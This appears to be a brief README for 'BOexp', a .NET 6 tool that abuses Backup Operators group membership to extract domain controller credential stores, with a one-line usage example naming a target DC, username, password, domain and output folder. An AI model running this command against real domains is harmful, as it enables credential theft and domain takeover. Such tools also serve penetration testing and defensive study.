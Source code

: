 # BOexp
Privilege escalation using Backup Operators group to gain Domain Controller access.

code: .net 6

backup operator 组用户特权利用获取域控相关凭据存储到域控目录

use:
BOexp.exe -t \\dc2008.vultest.com -u BOtest -p 1qaz@WSX -d vultest.com -o c:\users
![image](https://github.com/user-attachments/assets/dc6507c5-03d6-431d-a995-21f2f33b1531)

